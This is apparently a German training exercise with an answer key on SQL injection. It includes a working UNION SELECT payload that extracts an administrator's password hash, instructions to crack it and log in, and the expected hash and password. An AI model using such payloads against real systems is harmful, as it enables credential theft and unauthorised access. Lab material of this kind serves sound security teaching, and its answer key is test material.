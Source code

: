 Lesen Sie den Passwort-Hash des Administrators aus und verwenden Sie ein Online-Tool zur Entschlüsselung.
Überprüfen Sie Ihr Ergebnis, indem Sie sich mit den gehackten Login-Daten anmelden.

Tipp: Mit dem Schlüsselwort `LIKE` können Sie nach Mustern in Strings suchen.

Statement:
' AND 1=0 UNION SELECT (SELECT password FROM people WHERE name LIKE '_dmin%'), MD5('pass'), 1, 1;--

>>6) Kopieren Sie den MD5-Hashwert in das Antwortfeld.<<
     === 03f6d7d1d9aae7160c05f71ce485ad31

>>7) Wie lautet das entschlüsselte Passwort?<<
     === welldone!

